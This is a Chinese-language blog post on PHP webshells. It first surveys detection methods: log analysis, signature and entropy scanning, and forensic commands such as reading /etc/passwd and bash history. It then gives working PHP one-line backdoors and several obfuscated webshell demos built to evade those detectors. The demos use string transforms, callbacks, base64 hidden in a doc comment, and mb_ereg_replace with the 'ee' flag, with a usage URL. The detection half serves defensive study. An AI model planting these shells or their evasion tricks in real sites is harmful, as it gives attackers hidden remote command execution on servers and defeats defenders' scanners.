






# WebShell—PHP篇

Author: H3rmesk1t

Data: 2022.04.02

# 简介
`Webshell`是黑客经常使用的一种恶意脚本, 其目的是获得对服务器的执行操作权限, 比如执行系统命令、窃取用户数据、删除`web`页面、修改主页等, 其危害不言而喻. 黑客通常利用常见的漏洞, 如`SQL`注入、远程文件包含(RFI)、`FTP`, 甚至使用跨站点脚本攻击(`XSS`)等方式作为社会工程攻击的一部分, 最终达到控制网站服务器的目的.

`Webshell`常见的攻击特点主要有以下几点:
 - 持久化远程访问: `Webshell`脚本通常会包含后门, 黑客上传`Webshell`之后, 就可以充分利用`Webshell`的后门实现远程访问并控制服务器, 从而达到长期控制网站服务器的目的. 此外, 在上传完`Webshell`之后, 黑客会选择自己修复漏洞, 以确保没有其他人会利用该漏洞. 通过这种方式, 黑客就可以一种低调的姿态, 避免与管理员进行任何交互, 同时仍然获得相同的结果.

 - 提权: 在服务器没有配置错误的情况下, `Webshell`将在`web`服务器的用户权限下运行, 而用户权限是有限的. 通过`Webshell`, 黑客可以利用系统上的本地漏洞来实现权限提升, 从而获得`root`权限, 这样黑客基本上可以在系统上做任何事情, 包括安装软件、更改权限、添加和删除用户、窃取密码、阅读电子邮件等等.

 - 隐蔽性极强: `Webshell`可以嵌套在正常网页中运行且不容易被查杀. 它还可以穿越服务器防火墙, 由于与被控制的服务器或远程主机交互的数据都是通过`80`端口传递, 因此不会被防火墙拦截, 在没有记录流量的情况下, `Webshell`使用`post`包发送, 也不会被记录在系统日志中, 只会在`Web`日志中记录一些数据提交的记录.

文以`PHP Webshell`为示例, 详细解释`Webshell`的检测方式以及常用隐藏技术.

# 检测方式
## 日志检测
使用`WebShell`一般不会在系统日志中留下记录, 但是会在网站的`web`日志中留下`WebShell`页面的访问数据和数据提交记录. 日志分析检测技术通过大量的日志文件建立请求模型从而检测出异常文件, 称之为: `HTTP`异常请求模型检测. 它的优点为当网站上的访问量级达到一致值时, 这种检测方法具有比较大参考性价值. 它的缺点则是存在一定误报率, 对于大量的日志文件, 检测工具的处理能力和效率都会变的比较低.

## 文件内容检测(静态)
静态检测是指对脚本文件中所使用的关键词、高危函数、文件修改的时间、文件权限、文件的所有者以及和其它文件的关联性等多个维度的特征进行检测, 即先建立一个恶意字符串特征库. 对已知的`WebShell`查找准确率高, 但缺点是漏报率、误报率高, 无法查找`0day`型`WebShell`, 而且容易被绕过.

### WebShell 特征检测
通过提取`WebShell`文件中常见的特征码、特征值、威胁函数, 结合正则表达式制定相应的规则对文件进行扫描, 通过关键词匹配脚本寻找`WebShell`. 例如如下系统调用的命令执行函数:

```php
eval\system\cmd_shell\assert
```

### 统计特征检测
为了绕过基本的`WebShell`检测, 经常会出现一些变形混淆`WebShell`, 正则一般检测不出来, 但是这类脚本都明显与正常脚本不同, 通过统计文本熵、字符串长度、特殊符号个数、重合指数、压缩比等来制定相应的规则以预防混淆的`WebShell`.

[NeoPI](https://github.com/CiscoCXSecurity/NeoPI)是一个基于统计学的`WebShell`后门检测工具, 从信息熵、最长单词、重合指数、特征以及压缩五个方面对脚本文件进行搜索, 寻找潜在的被混淆或被编码的恶意代码.
 1. 信息熵(Entropy): 通过使用`ASCII`码表来衡量文件的不确定性;
 2. 最长单词(LongestWord): 最长的字符串也许潜在的被编码或被混淆;
 3. 重合指数(Indexof Coincidence): 低重合指数预示文件代码潜在的被加密或被混效过;
 4. 特征(Signature): 在文件中搜索已知的恶意代码字符串片段;
 5. 压缩(Compression): 对比文件的压缩比.

### 文件名检测
收集常见的`WebShell`文件名, 对文件进行文件名检测、过滤等操作. 例如: `backdoor.php`、`webshell.php`、`shell.php`等.


## 文件行为检测(动态)
动态特征检测是通过`WebShell`运行时使用的系统命令或者网络流量及状态的异常来判断动作的威胁程度, `WebShell`通常会被加密从而避开静态特征的检测, 当`WebShell`运行时就需要向系统发送系统命令来达到控制系统或者其他的目的. 通过检测系统调用来监测甚至拦截系统命令被执行, 从行为模式上深度检测脚本文件的安全性.

### 流量行为特征检测
`WebShell`带有常见的系统调用、系统配置、数据库、文件操作动作等, 它的行为方式决定了它的数据流量中的参数具有一些明显的特征. 例如如下关键词:

```php
ipconfig
ifconfig
system
whoami
net
stat
eval
database
systeminfo
```

攻击者在上传完`WebShell`后通常会执行命令等, 因此可以检测系统的变化以及敏感的操作, 通过和之前的配置以及文件的变化对比监测系统达到发现`WebShell`的目的.

#### 进程分析
利用`netstat`命令来分析可疑的端口、`IP`、`PID`及程序进程:

```sh
netstat -anptu | grep xxx
```

对于隐藏进程的查询命令:

```sh
ps -ef | awk '{print}' | sort -n | uniq >1
ls /proc | sort -n | uniq >2
diff 1 2
```

#### 文件分析
通过查看`/tmp`、`/init.d`、`/usr/bin`、`/usr/sbin`等敏感目录有无可疑的文件, 针对可以的文件可使用`stat`进行创建修改时间、访问时间的详细查看, 若修改时间距离事件日期接近, 有线性关联, 说明可能被篡改或者其他.

```sh
stat /usr/bin
```

由于攻击者最终基本都是利用上传文件来进行权限操作, 因此可以利用查找新增文件的方式来查看有无`WebShell`, 例如查找`24`小时内修改的`PHP`文件:

```sh
find ./ -mtime 0 -name "*.php"
```

查找隐藏文件:

```sh
ls -ar | grep "^\."
```

#### 系统信息分析
通过查看一些系统信息来进行分析是否存在`WebShell`.

```sh
cat /root/.bash_history     // 查看命令操作痕迹.
cat /etc/passwd             // 查看有无新增的用户或者除 root 之外 uid 为 0 的用户.
crontab  /etc/cron*         // 查看是否有后门木马程序启动相关信息.
```

### Webshell 工具特征检测
该部分篇幅后续会单独进行讲解. 常见的`WebShell`工具如: 菜刀、冰蝎、蚁剑等, 通过对这些工具特征的检测来检测出木马.

# 隐蔽技巧
## PHP 一句话木马
先来看看最简单的一句话木马:

```php
<?php @eval($_POST['cmd']);?>
```

```php
<?php @assert($_POST['cmd']);?>
```

|函数|说明|
|:----:|:----:|
|`eval`|`PHP 4`, `PHP 5`, `PHP 7+`均可用, 接受一个参数, 将字符串作为`PHP`代码执行.|
|`assert`|`PHP 4`, `PHP 5`, `PHP 7.2`以下均可用, 一般接受一个参数, `PHP 5.4.8`版本后可以接受两个参数.|

主要注意的是, `PHP5`中`assert`是一个函数, 可以通过`$func='assert';$func(...);`这样的方法来动态执行任意代码; `PHP7`中`assert`不再是函数, 而是一个语言结构(类似`eval`), 不能再作为函数名动态执行代码.

<div align=center></div>

## 字符串变换
常见的字符串变换的函数有:
```php
ucwords()           // 函数把字符串中每个单词的首字符转换为大写
ucfirst()           // 函数把字符串中的首字符转换为大写
trim()              // 函数从字符串的两端删除空白字符和其他预定义字符
substr_replace()    // 函数把字符串的一部分替换为另一个字符串
substr()            // 函数返回字符串的一部分
strtr()             // 函数转换字符串中特定的字符
strtoupper()        // 函数把字符串转换为大写
strtolower()        // 函数把字符串转换为小写
strtok()            // 函数把字符串分割为更小的字符串
str_rot13()         // 函数对字符串执行ROT13编码
```

 - `Demo1`

```php
<?php
	highlight_file(__FILE__);
	class Zy76a {
	    function Ko97q($yyds) {
	        $wdnmd = str_rot13('n@ff@ndj@r@1214124@eg');
	        $wdnbd = explode('@', $wdnmd);
	        $s = $wdnbd[0].$wdnbd[1].$wdnbd[3].$wdnbd[5];
	        $s($yyds);
	    }
	}
	 
	$qqyyu = new Zy76a();
	$qqyyu->Ko97q($_REQUEST['file_name']);
?>
```

<div align=center></div>

 - `Demo2`

```php
<?php
	highlight_file(__FILE__);
	class oopp {
		public $name;  

		public function __construct($name="") {   
	        $this->name = $name;
	    }

		public function __destruct() {
			$qwer = substr_replace("xxser", $this->name, -3);
			$rewq = array('', $qwer);
			$cdfr = $rewq[1].chr('116');
			$tryj = preg_replace("/xx/", "", $cdfr);
			$bbgu = substr_replace("", $tryj, 0);
			$yytr = $_REQUEST['file_name'];
	    	$bbgu($yytr);       
	    }
	}
	$test = new oopp("asser");
	unset($test);
?>
```

<div align=center></div>


## 回调函数组合
`PHP`中常用的回调函数:

```php
call_user_func_array()
call_user_func()
array_filter() 
array_walk()  
array_map()
array_reduce()
array_walk() 
array_walk_recursive()
filter_var() 
filter_var_array() 
uasort() 
uksort() 
registregister_shutdown_function()
register_tick_function()
forward_static_call_array(assert,array($_POST[x]));
```

 - `Demo1`

```php
<?php
	error_reporting(0);
	highlight_file(__FILE__);

	function h3rmesk($a, $b) {
		return "regist"."er_shut"."down_function";
	}

	class demo {
		public $name;  
		public function __construct($name="") {   
	        $this->name = $name;
	    }
		public function h3rmesk1t() {
			$qwer = substr_replace("xxser", $this->name, -3);
			$rewq = array('', $qwer);
			$cdfr = $rewq[1].chr('116');
			$tryj = preg_replace("/xx/", "", $cdfr);
			$bbgu = substr_replace("", $tryj, 0);
			return $bbgu;
		}
		public function post() {
			return $_REQUEST['file_name'];
		}
	}
	$test = new demo("asser");
	h3rmesk()($test->h3rmesk1t(), $test->post());
?>
```

<div align=center></div>

 - `Demo2`

```php
<?php
	error_reporting(0);
    highlight_file(__FILE__);
	/**
	* abcdYXNzZXJ0Cg==osais990;
	*/
    class User { }
    class demo {
    	public $base;
    	public function __construct($base='') {   
	        $this->base = $base;
	    }
		public function artart() {
			return base64_decode($this->base);
		}
    }
    class bemo extends demo {
		public $code;
		function __construct($code='') {
			$this->code = $code;
		}
		function brtbrt() {
			$mm = urldecode(str_rot13(trim('   '.$_REQUEST['file_name'].'  ')));
			h3rmesk()(trim($this->code), $mm);
		}
    }
    function qwer() {
    	$user = new ReflectionClass('User');
		$comment = $user->getDocComment();
		$d = substr($comment , 12, 12);
		return $d;
    }
    function h3rmesk($a, $b) {
		return "regist"."er_shut"."down_function";
	}
    $h33 = new demo(qwer());
    $h44 = new bemo($h33->artart());
    $h44->brtbrt();
?>

// 利用方式: http://localhost/html/shell.php?file_name=cucvasb%2528%2529
```

<div align=center></div>

## create_function 和 preg_replace
`create_function`的作用是创建一个匿名函数, 在内部相当于执行了一次`eval`:

```php
<?php $st=@create_function('',$_POST['a']);$st();?>
```

`/e`修饰符结合`preg_replace`或`preg_filter`, 仅限`PHP5`:

```php
<?php @preg_replace('/.*/e',$_POST['a'],'');?>

<?php @preg_filter('/.*/e',$_POST['a'],'');?>
```

`PHP7`中利用`/e`修饰符:

```php
<?php @mb_ereg_replace('.*',$_POST['a'],'','ee');?>
<?php @mb_eregi_replace('.*',$_POST['a'],'','ee');?>
<?php @mbereg_replace('.*',$_POST['a'],'','ee');?>
<?php @mberegi_replace('.*',$_POST['a'],'','ee');?>
```

- `Demo`

```php
<?php
	error_reporting(0);
    highlight_file(__FILE__);

    use function \mbereg_replace as h3rmesk1t;
    class bemo {
		public $code;
		function __construct($code='') {
			$this->code = $code;
		}
		function __destruct() {
			$mm = urldecode(str_rot13(trim('   '.$_REQUEST['file_name'].'  ')));
			h3rmesk1t('.*', $mm, '', 'ee');
		}
    }
    $test = new bemo('h3');
    unset($test);
?>
```

<div align=center></div>

## 无字母数字 WebShell
 - [无字母数字 Webshell 之提高篇](https://www.freebuf.com/articles/web/186298.html)
 - [老生常谈的无字母数字 Webshell 总结](https://www.freebuf.com/articles/network/279563.html)

# 参考
 - [一文详解Webshell](https://www.freebuf.com/articles/web/235651.html)
 - [免杀/一句话木马(PHP)](https://xz.aliyun.com/t/9246#toc-3)